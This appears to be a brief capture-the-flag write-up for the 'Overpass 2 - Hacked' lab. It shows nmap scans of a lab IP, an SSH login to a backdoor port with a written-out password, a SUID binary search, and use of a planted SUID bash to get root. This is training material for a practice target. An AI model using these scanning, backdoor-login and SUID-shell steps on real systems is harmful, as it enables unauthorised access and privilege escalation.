



# Overpass 2 - Hacked

## Scanning

```bash
sudo nmap -sS -p- --min-rate 4000 -vvv --open -Pn -n 10.10.34.253 -oG allports
nmap -sC -sV -p 22,80,2222 -Pn -n 10.10.34.253 -oN targeted
```



```bash
ssh CooctusClan@10.10.34.253 -p 2222
# password = november16
```



Buscamos suid y encontramos un archivo que parece tener el bash con esos permisos

```bash
find / -perm -u=s 2>/dev/null
/home/james/.suid_bash -p
```

